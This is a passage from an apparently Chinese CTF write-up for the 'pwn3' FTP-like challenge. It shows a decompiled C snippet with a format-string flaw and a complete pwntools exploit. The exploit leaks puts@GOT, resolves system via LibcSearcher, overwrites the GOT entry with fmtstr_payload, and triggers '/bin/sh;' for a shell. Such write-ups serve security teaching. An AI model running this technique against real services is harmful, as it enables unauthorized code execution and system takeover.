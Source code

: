 ```c
      s[v0] = *(_BYTE *)(i + j);                // 将文件名一个个char保存到s中，j遍历时，遇到 '\0' 则终止
    }
  }
  return puts(s);      // vulnerability        // 输出各个file结构体的name字段  
}
```





# exploit

- 封装部分交互逻辑为函数版：

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')

def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data

def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)

tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1) # 通过IDA分析得到的正确的用户名
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline(name) # send name # 用计算得出的正确用户名，通过一开始的用户名校验

puts_got = pwn3.got['puts'] # get the addr of puts # 获取 puts 函数的got表项地址
log.success('puts got : ' + hex(puts_got)) # log
put('1111', b"%8$s" + p32(puts_got)) # 调用自定义的put函数 完成put交互
puts_addr = u32(get('1111')[:4]) # 获取puts函数的真实地址 # 调用自定义的函数get

# get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

# modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
# gdb.attach(sh)
```